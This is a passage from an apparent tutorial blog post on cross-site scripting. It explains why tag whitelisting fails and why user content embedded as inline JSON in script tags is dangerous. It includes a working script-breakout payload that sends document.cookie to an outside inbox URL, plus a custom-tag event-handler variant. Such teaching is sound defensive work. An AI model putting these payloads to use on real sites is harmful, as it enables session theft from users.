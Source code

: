 We can make it even better actually serving an image from `https://rdner.de/inbox` so the post does not look suspicious.

As mentioned, the goals can vary. Some people exploit XSS to perform a [DDoS](https://en.wikipedia.org/wiki/Denial-of-service_attack) (distributed denial-of-service) attack against another web-site other people mine crypto-currencies via XSS.

Other important things to mention

White-listing certain tags (like some early PHP libraries did) would not work, because you can actually run this attack via any tag using:

```html
<totally-custom-tag onmouseover="<same code here>">
  Long interesting text
</totally-custom-tag>
```

If you serve user content as inline JSON like so:

```html
<!DOCTYPE HTML>
<html>
  <head>
    <script>
	  var data = {
		  post: 'some UGC here'
	  };
	</script>
  </head>
  <body>
   ...
  </body>
</html>
```

then it's broken because if I put:

```html
</script>
<script>
  var e=document.createElement('img');
  e.src='https://rdner.de/inbox?sess='+encodeURIComponent(document.cookie);
  document.body.appendChild(e);
</script>
```

in there it will be evaluated.

I see people being shocked when I tell them about it, but yes, this is how it works and there is a reason for that.

In the past there was a plan that browsers would support different programming languages not just JavaScript, Microsoft was planning on [pushing VBScript](https://en.wikipedia.org/wiki/VBScript#Environments), for example. As a result, browsers could not implement any syntax awareness for the code in `script` tags. The browser is just simply looking for a `</script>` string to end the code evaluation even if it's a part of a JavaScript string. So, as you might have noticed our malicious string actually starts with a closing `script` tag and we immediately open a new one with our own code.
